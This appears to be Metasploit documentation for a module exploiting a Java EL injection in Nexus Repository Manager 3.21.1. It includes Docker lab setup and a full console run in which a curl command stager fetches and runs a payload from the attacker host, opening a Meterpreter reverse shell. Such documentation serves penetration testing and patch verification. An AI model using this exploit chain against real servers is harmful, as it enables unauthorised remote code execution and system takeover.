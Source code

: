 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in Nexus
Repository Manager versions up to and including 3.21.1 to execute code
as the Nexus user. Tested against 3.21.1-01.

### Setup

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.1`
(note the added `3.21.1` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

### Targets

```
Id  Name
--  ----
0   Nexus Repository Manager <= 3.21.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to a valid Nexus username.

### PASSWORD

Set this to a valid Nexus password.

## Scenarios

### Nexus Repository Manager 3.21.1-01 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf5 > use exploit/linux/http/nexus_repo_manager_el_injection
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > show missing

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.1-01 is a vulnerable version.
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=8b6fd077-1830-4e2b-90e8-2997d260b5c0;
[*] Using URL: http://0.0.0.0:8080/t6NXrxF
[*] Local IP: http://192.168.1.3:8080/t6NXrxF
[*] Generated command stager: ["curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF", "chmod +x /tmp/hgzeytII", "/tmp/hgzeytII", "rm -f /tmp/hgzeytII"]
[*] Executing command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[+] Successfully executed command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[*] Client 192.168.1.3 (curl/7.61.1) requested /t6NXrxF
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Executing command: chmod +x /tmp/hgzeytII
[+] Successfully executed command: chmod +x /tmp/hgzeytII
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Executing command: /tmp/hgzeytII
[+] Successfully executed command: /tmp/hgzeytII
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Executing command: rm -f /tmp/hgzeytII
[+] Successfully executed command: rm -f /tmp/hgzeytII
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:53094) at 2020-04-07 19:25:38 -0500
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 282665c16215 (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
